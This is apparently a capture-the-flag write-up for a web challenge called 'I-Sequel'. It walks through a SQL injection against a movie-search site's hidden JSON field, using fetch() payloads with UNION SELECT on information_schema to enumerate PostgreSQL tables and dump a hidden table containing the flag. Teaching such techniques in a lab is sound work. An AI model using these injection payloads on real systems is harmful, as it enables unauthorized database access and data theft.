




# I-Sequel

## Authors

- Atharv (@Sequeli)

## Category

- Web Exploitation

## Description

I want to start a movie rental business, I'm thinking of calling it "I-Sequel"...
Get it?? Because sequel... and movies...

No?

Well, moving on, as usual, that's only the official one, the other business is uhhh... to be kept private.

As such, I would like you to test it out, thanks :)

Btw, I'm thinking of calling it My-Sequel...  
Get it? Get it?? Cause its my _second_ business...  
_sequel_...  
No?

https://sequeli.ctf.unswsecurity.com

## Difficulty

- Medium?

## Points

200

## Solution

<!-- <details>
<summary>Spoiler</summary> -->

## Idea

Run some SQL on a vulnerable site to get data from the "secret business"

## Walkthrough

If the ridiculous amounts of SQL puns didn't hint that the challenge was around SQL injection, (SQLi... unlike the meme), I hope that an initial assessment of the website did.

The site is simply a site that lets you search through a list of movies

_ironic that the styling is from the 90s, but I have the whole twilight series_

Just to sum it up quickly,

- Nothing suspicious in the source code
- No real cookies to speak of (and in extension, none to steal either)
  etc.

Time to look at SQLi.

## The challenge overall had 3 major steps:

### 1. Finding the vulnerable endpoint

If you just enter a quote (or the standard `' or 1=1; -- `) we end up with nothing really. We get the same result on testing with the double quotes `"`. Looks like it is not exploitable. (or at least not yet)


On inspection of the source code however, you should find a hidden input field:


And the javascript on the page converts the form input into json before sending it across. Also notice that the response is also json.  


You could also find out by inspecting the network requests you made using a request inspection proxy tool like burpsuite for example.

On making a simple fetch request to the endpoint, we see it can be exploited

```js
fetch("/", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    name: "yeet",
    searchToken: "' or 1=1; --",
  }),
})
  .then((res) => res.json())
  .then((r) => console.log(r));
})

// Result is an array of 20 movies
```

Its good to note at this point that this is exploitable because the query run on the actual database is usually of the form

```sql
select * from table_name where field like '{std-format}%{user_input}%';
```

and with malicious input becomes:

```sql
select * from table_name where field like '{std-format}%' or 1=1; -- %';
```

which means return every row from the table.

### 2. Finding the hidden data

Once we know that the site is exploitable, the next step is to think about what do we want to find. In this case, the challenge description says:

```
...
the other business is uhhh... to be kept private.
...
```

Looks like they might be hosting a different "business" on the same site. Which is likely to mean a different SQL table.

Even without the hint however, dumping all the tables in the database is usually a good idea. We do that by trying to access the `information_schema`, specifically, the list of tables under `information_schema.tables`.  
**Note:** This would not work if the database was say OracleDB.  
**Note 2:** _If you're not familiar with either of these terms, I would recommend running a quick search right now._

To add data to the original query, we can use the `union` statement. We're looking for data in the `table_name` column in the schema, so the new sql fetch request becomes:

```js
fetch("/", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    name: "yeet",
    searchToken:
      "' or 1=1 union select table_name from information_schema.tables; --",
  }),
})
  .then((res) => res.json())
  .then((r) => console.log(r));

// Result: [{"err":"Error occurred in postgres db"}]
```

While we the database errored out, we do find out that its a postgres database.

As far as to why it errored out, its because the `union` statement requires the number of columns in both queries to have the same number of columns.  
In this case, the original select query was returning 3 columns, whereas, the select from the information schema only requests for 1 column.  
Since you can pad a query with `null` columns, you need to brute force the number of columns by making queries like

```sql
or 1=1 union select null from information_schema.tables; --
or 1=1 union select null, null from information_schema.tables; --
or 1=1 union select null, null, null from information_schema.tables; --
```

until the database stops error-ing out.

Similarly, the types of the joining columns have to be the same as well. So the query

```sql
or 1=1 union select table_name, null, null from information_schema.tables; --
```

does not work, but

```sql
or 1=1 union select null, table_name, null from information_schema.tables; --
```

does. This again is a sort of a trial and error operation.  
**Note:** if the server did not error out, this would probably be much harder as a blind SQL injection would have to be carried out.

Finally, the request:

```js
fetch("/", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    name: "yeet",
    searchToken:
      "' or 1=1 union select NULL, table_name, NULL from information_schema.tables; --",
  }),
})
  .then((res) => res.json())
  .then((r) => console.log(r));

// Result: list of 200 table names of format: {key: null, name: string, val: null}
```

gives us a list of around 200 elements to sort through.

### 3. Finding the Right Table... and the Flag

To find the right table, the easiest way is to sift through the list. I recommend running a sort on the list for sanity sake

```js
fetch(...).then(r => r.json()).then(r => result = r)
result = result.map((element) => element.name).sort()
console.log(result)
```

Looking at the list, you should see a lot of pg\_\* tables, which are just internal postgres tables; along with an interesting one:

```
...
cash_moneys_logbook
...
```

_smh_

Next, to dump the data from this table. Should be the same as before, however unlike the last time, you don't know the name of the columns. You should usually search this up from the information_schema:

```sql
or 1=1 union select null, column_name, null from information_schema.columns; --
```

but since you know that the database is postgres, you can just mock the table columns:

```js
fetch("/", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
  },
  body: JSON.stringify({
    name: "yeet",
    searchToken:
      "' or 1=1 union select null, uno, duo from cash_moneys_logbook as t(uno, duo); --",
  }),
})
  .then((res) => res.json())
  .then((r) => {
    console.log(r);
  });

// Result: data from the cash_moneys_logbook
// talking about some kind of money owed by food products?
// ramen? frankie? triangle doritos?
```

You should also see the flag in there:

```
SKYLIGHT{I75_NO7_S3Qu3l_1Ts_$-Q-L_f1tE_M3}
```

_Unrelated, but the searchtoken used was not random :P_

</details>
